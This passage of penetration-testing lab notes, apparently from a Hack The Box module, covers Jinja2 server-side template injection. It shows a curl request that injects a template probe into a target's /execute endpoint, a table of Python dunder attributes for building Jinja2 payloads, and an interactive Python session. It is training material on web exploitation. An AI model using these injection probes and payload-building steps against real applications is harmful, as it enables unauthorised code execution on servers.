 ```Shell
```
#### Identify the template engine the application is utilizing
```Shell
curl -gs "http://$tgt/execute?cmd={{7*'7'}}"
```
Output: `7777777`. We are dealing with a Jinja2 backend.
#### A small dictionary from [fatalerrors.org](https://www.fatalerrors.org/a/0dhx1Dk.html) to refer to when going over the Jinja2 payload development part of this section:
|**No.**|**Methods**|**Description**|
|---|---|---|
|1.|`__class__`|Returns the object (class) to which the type belongs|
|2.|`__mro__`|Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.|
|3.|`__subclasses__`|Each new class retains references to subclasses, and this method returns a list of references that are still available in the class|
|4.|`__builtins__`|Returns the builtin methods included in a function|
|5.|`__globals__`|A reference to a dictionary that contains global variables for a function|
|6.|`__base__`|Returns the base class inherited by the object <-- (__ base__ and __ mro__ are used to find the base class)|
|7.|`__init__`|Class initialization method|
#### Start a Python3 Interpreter
```Shell
python3
```
#### Create a string object and use `type` and `__class__`, as follows. Then use the `dir()` command to show all methods and attributes from the object
```Python
import flask
s = 'HTB'
type(s)
```

```
<class 'str'>
```

```Python
s.__class__
```

```
<class 'str'>
```

```Python
dir(s)
```

```
['__add__', '__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'capitalize', 'casefold', 'center', 'count', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'format_map', 'index', 'isalnum', 'isalpha', 'isascii', 'isdecimal', 'isdigit', 'isidentifier', 'islower', 'isnumeric', 'isprintable', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'maketrans', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```